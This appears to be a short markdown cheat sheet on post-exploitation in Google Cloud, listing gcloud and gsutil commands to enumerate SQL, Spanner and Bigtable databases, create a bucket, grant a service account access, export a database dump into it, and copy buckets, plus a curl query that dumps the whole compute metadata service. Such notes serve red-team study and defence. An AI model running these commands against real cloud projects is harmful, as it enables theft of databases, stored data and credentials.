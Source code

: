 # Post exploitation
## Index
* [Data harvesting](#Data-harvesting)
  * [Export google data](#Export-google-data) 
  * [Export SQL databases](#Export-SQL-databases)
  * [Export buckets](#Export-buckets)
* [Metadata Service URL](#Metadata-Service-URL)
 
## Data harvesting
### Export google data 
- https://takeout.google.com

### Export SQL databases
#### List SQL databases
```
gcloud sql instances list
gcloud sql databases list --instance <instance name>
gcloud spanner instances list
gcloud spanner databases list --instance <instance name>
gcloud bigtable instances list
```

#### Create new storage bucket, change perms, export SQL DB
```
gsutil mb gs://<googlestoragename>
gsutil acl ch -u <service account> gs://<googlestoragename>
gcloud sql export sql <sql instance name> 
gs://<googlestoragename>/sqldump.gz --database=<database name>
```

### Export buckets
```
gsutil cp gs://bucket-name/folder/ 
```

### Metadata Service URL

```bash
curl "http://metadata.google.internal/computeMetadata/v1/?recursive=true&alt=text" -H "Metadata-Flavor: Google"
```

